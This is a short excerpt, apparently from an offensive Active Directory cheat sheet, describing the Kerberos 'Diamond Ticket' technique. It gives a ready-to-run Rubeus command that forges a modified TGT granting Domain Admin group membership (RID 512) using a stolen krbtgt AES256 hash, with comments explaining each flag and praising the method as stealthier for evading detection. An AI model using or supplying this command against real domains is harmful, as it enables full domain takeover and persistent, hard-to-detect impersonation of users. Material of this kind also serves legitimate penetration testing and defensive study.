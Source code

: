 Even better (more OPSEC savvy) is a *Diamond Ticket*, where you modify the fields of a legitimate TGT by decrypting it with the `krbtgt` hash, modify it as needed (e.g. add Domain Admin group membership) and re-encrypt it.

```powershell
# Get user RID
whoami /user

.\Rubeus.exe diamond /ptt /tgtdeleg /ticketuser:USERNAME /ticketuserid:USER_RID /groups:512 /krbkey:AES256_HASH
# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash. 
```
